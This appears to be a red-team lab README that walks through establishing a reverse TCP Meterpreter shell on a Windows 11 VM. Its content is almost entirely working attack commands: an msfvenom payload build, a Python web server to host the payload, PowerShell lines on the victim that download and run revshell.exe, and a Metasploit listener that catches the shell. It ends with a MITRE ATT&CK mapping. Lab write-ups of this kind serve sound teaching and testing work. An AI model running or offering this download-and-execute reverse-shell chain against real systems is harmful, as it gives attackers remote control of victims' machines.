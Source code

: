 #  Red Team – Reverse TCP Shell

## Objective

Establish a reverse TCP Meterpreter shell on a Windows 11 VM using Metasploit.\
Note: For the Lab Windows Defender was disabled

---

## Toolset

- **Metasploit Framework**
- **msfvenom**
- **PowerShell**
- **Python HTTP Server**

---

## Payload Creation  
**(For Educational Purposes Only)**

Payload: reverse TCP Meterpreter\
Target: 64-bit Windows\
Format: .exe

bash (attacker):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.81 LPORT=4444 -f exe -o revshell.exe
```

Delivery via PowerShell\
Host the payload on a web server:

bash (attacker):
```bash
python3 -m http.server 8080
````
Fetch and execute on the Windows target:

Powershell (victim):
````powershell
Invoke-WebRequest http://192.168.1.81:8080/revshell.exe -OutFile revshell.exe
Start-Process revshell.exe
````
Listener Setup

bash(attacker):
````bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.81
set lport 4444
exploit -j
````
Results:
A Meterpreter session was successfully established on the attacker's system after execution.

MITRE ATT&CK Mapping

| Technique	           |  ID           |
| -------------------- | ------------- |
| PowerShell Execution |  T1059.001    |
| Obfuscation          |  T1027        |
| Common Ports         |  T1043        |
